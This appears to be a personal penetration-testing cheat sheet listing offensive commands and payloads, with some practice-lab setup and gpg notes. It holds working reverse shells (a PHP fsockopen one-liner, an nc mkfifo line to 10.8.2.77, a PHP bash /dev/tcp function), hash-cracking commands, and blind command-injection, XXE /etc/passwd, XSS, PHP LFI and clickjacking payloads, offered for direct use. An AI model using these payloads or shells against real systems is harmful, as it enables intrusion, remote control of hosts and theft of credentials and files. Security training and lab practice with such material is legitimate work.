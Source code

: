 # Hashcat
- hashcat -m 1800 -a 0 hash.txt rockyou.txt

# Find command
- find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null

# Upgrading to a shell
- python -c 'import pty;pty.spawn('/bin/bash')'
- SHELL=/bin/bash script -q /dev/null

# Reverse Shell
- php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
- m /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.77 9001 >/tmp/f

# Blind OS injection
```sh

||whoami>/var/www/images/output.txt||

```

# XXE Attacks

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads
```
<script>onclick(alert("Hello"));</script>
// window.location.hostname
```

# John Hashing
- john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
- $ tac data.txt > new_data.txt

# Email re
-   email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')

## Php reverse shell function
function execInBackground($cmd) { 
                if (substr(php_uname(), 0, 7) == "Windows"){ 
                                    pclose(popen("start /B ". $cmd, "r"));  
                                                    } 
                                                                    else { 
                                                                                        exec($cmd . " > /dev/null &");   
                                                                                                            } 
                                                                                                                            } 
                                                                                                                                        execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/YOUR_PORT_HERE 0>&1'");
# PHP LFI
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php

# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
